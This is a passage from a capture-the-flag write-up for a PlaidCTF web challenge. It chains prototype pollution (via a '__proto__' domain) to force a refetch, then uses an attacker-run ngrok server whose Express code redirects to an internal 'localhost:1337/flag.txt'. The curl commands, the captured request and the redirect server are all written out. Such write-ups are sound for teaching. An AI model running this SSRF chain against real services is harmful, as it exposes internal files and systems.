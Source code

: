 If things went properly, the request to the search console for the `__proto__` domain and site should have worked, and `isStale` should have been polluted with a value of `[]`, which is truthy.  Now a refetch should happen for URL.  Now when you make a search on your valid domain that returns a result, there should be a refetch.  When we run the following search:

```shell
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ curl 'http://172.19.0.3:6285/?domain=81b70181c396.ngrok.io&q=index'                                 
<html>
<!-- ... -->
  <div class="result-list">
    <div class="result">
      <a class="link" href="http://81b70181c396.ngrok.io/" target="__blank">/</a>
      <div class="description">
          WOWZA INDEX isStale
      </div>
    </div>
    </div>
  </div>
</body>
</html>
```

We get the refetch request on our server:

```http
20:28:28: GET /
        Accept: */*
        User-Agent: node-fetch/1.0 (+https://github.com/bitinn/node-fetch)
        Accept-Encoding: gzip,deflate
        Connection: close
        Host: 81b70181c396.ngrok.io
        X-Forwarded-For: 136.24.87.102
```

### Redirect

Now all that's left should be changing up our local server to serve up a redirect rather than something with content we can search.  Something like:

```js
const express = require("express");
const app = express();
app.all("/", (req, res) => {
  res.redirect("http://localhost:1337/flag.txt");
});
app.listen(port, () => console.log(`exfil and tools server listening on port ${port}!`));
```

And lets run the search again:

```html
╭─zoey@parrot ~/sec/plaidctf/wowza ‹master*› 
╰─$ curl 'http://172.19.0.3:6285/?domain=81b70181c396.ngrok.io&q=wowza'
<html>
    <head>
        <!-- I submit for your consideration that this is not an XSS problem -->
        <link rel="preconnect" href="https://fonts.gstatic.com">
        <link href="https://fonts.googleapis.com/css2?family=Lato:ital,wght@0,100;0,300;0,400;0,700;1,100;1,300;1,400;1,700&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/static/main.css">
        <script src="/static/main.js"></script>
    </head>
    <body>
        <div class="content">
            <div class="head">
                <div class="logo">Wowza!</div>
```